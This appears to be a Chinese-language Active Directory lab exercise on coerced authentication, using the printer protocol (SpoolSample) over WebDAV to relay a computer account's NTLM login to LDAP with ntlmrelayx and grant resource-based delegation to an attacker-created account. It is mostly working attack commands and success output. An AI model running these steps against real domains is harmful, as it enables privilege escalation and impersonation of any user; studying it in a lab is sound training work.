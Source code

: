 # Exercise 3 - Coerced Authentication and NTLM Relay

## Preparations

在AD-01安裝 Webclient service，以支援WebDav Client功能

```powershell
Install-WindowsFeature WebDAV-Redirector
```

- 重啟後，使用以下腳本讓WEBDAV開機時自動啟動

```powershell
Get-Service mrxdav,webclient | Set-Service -StartupType Automatic
```

- 使用以下腳本確認服務是否開啟

```powershell
start-service mrxdav,webclient
get-service mrxdav,webclient
```

WebDav通常預設不會再Sever上安裝，但是Desktop版本的作業系統通常會預設安裝(如Onedrive就有此功能)，故實務上使用WEBDAV做NTLM Relay是可行的。

## Tools

使用工具如下:

- Impacket: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
- Powermad: [https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

## Theory

本練習利用微軟MS-RPRN(印表機)協定的設計缺陷，強制AD-01使用Computer account(AD-01$)對AD-01發起NTLM驗證，並將該驗證Relay到AD-DC上，執行RDBC委派(為後續內容)，並讓我們創建的computer account **$evilpc** 對AD-01有RDBC權限，可偽冒 **任意使用者** 使用AD-01上的 **任意服務**

### NTLM 驗證

![](../images/2022-06-16-11-47-49.png)

### NTLM Relay場景

![](../images/2022-06-16-11-53-36.png)

### PRPN Problem

- MSRPRN:拿來控制windows印表機共用的協定
    - 角色:
        - 客戶端(Client)
        - 共用印表機的電腦(Printer Server)
        - 印表機
    - Client:可管理Printer Server新增印表機及驅動等動作
    - **Client可要求Printer Server對印表機變動時自動通知Client**

![](../images/2022-06-16-11-57-53.png)

### UNC Path and WebDav

![](../images/2022-06-16-11-58-40.png)

## Exercise

本攻擊包含以下步驟

1) 創建新computer account evilpc
2) 在AD-00設定NTLM-Relay Server
3) 使用MS-RPRC協定觸發AD-01向AD-00發起認證

### Create a new computer account

為了實作kerberos delegation此處需先創建一個computer account **evilpc**，在實驗六會在詳細解釋原理。

```powershell
cd C:\attacker-tools\
cat -raw .\Powermad.ps1 | iex
New-MachineAccount -MachineAccount evilpc -Password (ConvertTo-SecureString -String "EvilPassword1" -AsPlainText -Force)
```

### Set up a ntlm relay server

使用ntlmrelayx.py工具，在AD-00發起一個NTLM relay server

```powershell
ntlmrelayx.py --no-smb-server --delegate-access --escalate-user evilpc$ -t ldap://ad-dc.contoso.com
```

- **--no-smb-server**:不發起SMB Server，因為此處是使用WEBDAV服務(HTTP)作為NTLM的載體。

- **--delegate-access**:定義在ntlm relay後，要向ad-dc變更AD-01的RBCD權限

 - **--escalate-user evilpc$** 使$evilpc擁有AD-01的RBCD權限。

 - **-t ldap://ad-dc.contoso.com** 定義ntlm relay的目標，此處為使用ldap協議向ad-dc發起RBCD的權限變更。

NTLM為一個內嵌的認證協議，實際上可運用在HTTP、LDAP以及SMB等常見的windows內網協定上。

### 使用MS-RPRC協定觸發驗證

使用SpoolSample.exe使用MS-RPRC協定觸發ad-01向ad-00發起WEBDAV(HTTP)的NTLM協定。

```
 .\SpoolSample.exe ad-01 ad-00@80/foobar
```

**UNC Path格式如下**:
- \\\ad-00 =>發起SMB認證
- \\\ad-00@80 => 對80 port 發起webdav認證


- 如果攻擊成功將會在ad-00的NTLM relay的程式視窗看到以下結果: 

```
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Delegation rights modified succesfully!
[*] evilpc$ can now impersonate users on ADSEC-01$ via S4U2Proxy
```

使用 PowerView 可查看 ad-01成功對evil-pc這個computer account授予RBCD權限。

```powershell
cat -raw ".\PowerView.ps1" | iex
Get-DomainComputer ad-01 | select msds-allowedtoactonbehalfofotheridentity

#取得RBCD的RawData
$RawBytes = Get-DomainComputer ad-01 | select -expand msds-allowedtoactonbehalfofotheridentity


#轉換為 sid
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl

#將sid轉換為可辨識的帳號 sid為上一步取得
ConvertFrom-Sid sid

```